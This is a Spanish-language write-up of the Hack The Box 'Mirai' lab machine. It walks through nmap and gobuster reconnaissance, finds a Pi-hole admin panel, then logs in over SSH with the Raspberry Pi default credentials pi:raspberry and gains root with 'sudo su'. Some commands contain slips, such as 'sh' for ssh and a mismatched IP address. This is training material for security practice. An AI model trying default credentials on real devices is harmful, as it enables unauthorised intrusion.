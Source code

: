 ```yaml
---
layout: single
title: HTB-Mirai
excerpt: "WriteUp de la máquina HTB Mirai -- Type: Easy"
date: 2022-03-29
classes: wide
header:
  icon: /assets/images/hackthebox.webp
  teaser_home_page: true
  teaser: /assets/images/writeups/mirai/mirai.png
categories:
  - WriteUps
tags:
  - HTB
  - Easy

---
```


<centre><img src="/assets/images/writeups/mirai/mirai.png"></centre>

[Maquina](https://app.hackthebox.com/machines/64) 



## Reconocimiento

```bash
sudo nmap -sCV --min-rate 5000 -Pn 10.10.10.48 
```

```bash
Nmap scan report for 10.10.10.48
Host is up (0.038s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey: 
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp open  domain  dnsmasq 2.76
| dns-nsid: 
|_  bind.version: dnsmasq-2.76
80/tcp open  http    lighttpd 1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: lighttpd/1.4.35
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Al comprobar que el puerto 80 esta abierto, nos disponemos a ver que se encuentra en él. Cuando entramos se encuentra en blanco, pero podemos usar la herramienta **dirbuster** para explorar el servidor web en busqueda de firectorios y ficheros en el.

Comando:
```bash
gobuster dir --url http://10.10.29.96/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

Resultados:
```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.48/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/03/29 12:27:48 Starting gobuster in directory enumeration mode
===============================================================
/_framework/blazor.webassembly.js (Status: 200) [Size: 61]
/admin                (Status: 301) [Size: 0] [--> http://10.10.10.48/admin/]
/swfobject.js         (Status: 200) [Size: 61]                               
                                                                             
===============================================================
2022/03/29 12:28:10 Finished
===============================================================
```

Al ver los resultados comprobamos que tiene un directorio **/admin** al cual comprobaremos si hay algo.

<centre><img src="/assets/images/writeups/mirai/pihole.png"></centre>

Nos encontramos que hay un panel de administracion llamado **Pi-Hole**
lo cual nos da una pista de que nos estamos enfrentando a un SO Raspbian.


## Explotación
Ahora que sabemos a que nos enfrentamos y la "temática" de la maquina, en la botnet de **Mirai** usaban usuarios y credenciales por defecto y las de un dispositivos con este SO son:

```txt
pi:raspberry
```

Intentamos conectarnos por SSH con estas credenciales.

```bash
sh pi@10.10.10.48 
```

Y vemos que nos da acceso a la shell de la máquina.

```bash
The authenticity of host '10.10.10.48 (10.10.10.48)' can't be established.
ED25519 key fingerprint is SHA256:TL7joF/Kz3rDLVFgQ1qkyXTnVQBTYrV44Y2oXyjOa60.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.48' (ED25519) to the list of known hosts.
pi@10.10.10.48's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 27 14:47:50 2017 from localhost

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $ 
```

Usamos el comando **sudo su** para elevar privilegios y con ello ser root

```bash
pi@raspberrypi:~ $ sudo su
root@raspberrypi:/home/pi# 
```